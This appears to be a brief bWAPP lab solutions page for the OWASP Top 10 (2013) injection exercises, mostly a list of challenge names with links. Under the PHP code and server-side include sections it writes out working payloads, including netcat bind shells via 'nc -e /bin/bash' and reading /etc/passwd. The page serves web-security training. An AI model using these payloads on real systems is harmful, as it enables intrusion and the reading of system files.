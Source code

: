 # bwapp解題(OWASP TOP 10[2013])

https://github.com/skiptomyliu/solutions-bwapp

https://wooly6bear.files.wordpress.com/2016/01/bwapp-tutorial.pdf


# bwapp / A1 - Injection /

[HTML Injection - Reflected (GET)](https://www.youtube.com/watch?v=q4SVMPGASIU)

[HTML Injection - Reflected (POST)](https://www.youtube.com/watch?v=VrrI7jlN5gQ)

```
HTML Injection - Reflected (Current URL)

HTML Injection - Stored (Blog)

iFrame Injection

LDAP Injection (Search)

Mail Header Injection (SMTP)

OS Command Injection

OS Command Injection - Blind

PHP Code Injection

message=1; phpinfo()

phpi.php?message=""; system('hostname')

phpi.php?message=""; system('nc -lvp 1234 -e /bin/bash')


Server-Side Includes (SSI) Injection

<!--#exec cmd="id" -->

<!--#exec cmd="cat /etc/passwd" -->

connect to me on port 8888!

<!--#exec cmd="nc -lvp 8888 -e /bin/bash" -->

SQL Injection (GET/Search)

SQL Injection (GET/Select)

SQL Injection (POST/Search)

SQL Injection (POST/Select)

SQL Injection (AJAX/JSON/jQuery)

SQL Injection (CAPTCHA)

SQL Injection (Login Form/Hero)

SQL Injection (Login Form/User)

SQL Injection (SQLite)
```